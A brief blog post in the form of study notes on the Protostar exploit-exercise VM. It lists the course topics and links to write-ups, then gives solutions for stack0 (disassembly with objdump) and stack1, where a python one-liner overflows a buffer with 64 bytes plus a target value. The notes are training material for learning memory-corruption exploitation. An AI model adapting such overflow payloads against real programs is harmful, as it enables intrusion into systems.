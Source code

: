 ```yaml
---
layout:     post
title:      protostar系统学习
date:       2016-06-03
summary:    study protostar to upgrade new skills
categories: linux
tags:
 - overflow
 - linux
---
```

#### 0xff About Protostar

    Protostar introduces the following in a friendly way:

    Network programming
    Byte order
    Handling sockets
    Stack overflows
    Format strings
    Heap overflows

The above is introduced in a simple way, starting with simple memory corruption and modification, function redirection, and finally executing custom shellcode.

In order to make this as easy as possible to introduce Address Space Layout Randomisation and Non-Executable memory has been disabled. If you are interested in covering ASLR and NX memory, please see the Fusion page.
    

    official website:       https://exploit-exercises.com/protostar
    nebula.iso download:    https://pan.baidu.com/s/1nvq3f5J
    some witeup:    
        https://lightless.me/archives/protostar-stack-writeup.html
        https://bug.cool/2016/Protostar_Writeup/
        https://lightless.me/archives/protostar-format-writeup.html
        

#### 0x00 stack0
    mykey:
        cd /opt/protostar/bin
        objdump -d -M intel stack0 > /tmp/stack0.out
        vi stack0.out
    link knowledge:
        https://blog.163.com/lixiangqiu_9202/blog/static/535750372012727102618226/

#### 0x01 stack1
    mykey:
        python -c "print 'A'*64+'\x64\x63\x62\x61'" | xargs ./stack1
    link knowledge:
        the command:
            python -c "print 'A'*64+'\x64\x63\x62\x61'" | ./stack1 
        will not work,coz this protostar is different from the first nebula system
